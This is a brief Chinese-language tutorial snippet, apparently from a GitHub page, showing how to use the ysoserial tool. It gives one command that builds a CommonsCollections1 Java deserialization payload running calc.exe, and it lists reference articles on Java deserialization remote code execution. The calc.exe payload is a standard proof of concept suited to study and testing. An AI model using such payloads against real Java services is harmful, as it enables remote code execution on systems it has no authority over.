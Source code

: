 ysoserial的使用方法

```
java -jar ysoserial.jar CommonsCollections1 calc.exe > 1.txt
```

把1.txt 里面的内容反序列化化即可触发生成calc.exe的命令





https://www.cnblogs.com/ysocean/p/6516248.html

https://www.freebuf.com/vuls/170344.html

https://blog.chaitin.cn/2015-11-11_java_unserialize_rce/

https://www.cnblogs.com/luoxn28/p/5686794.html
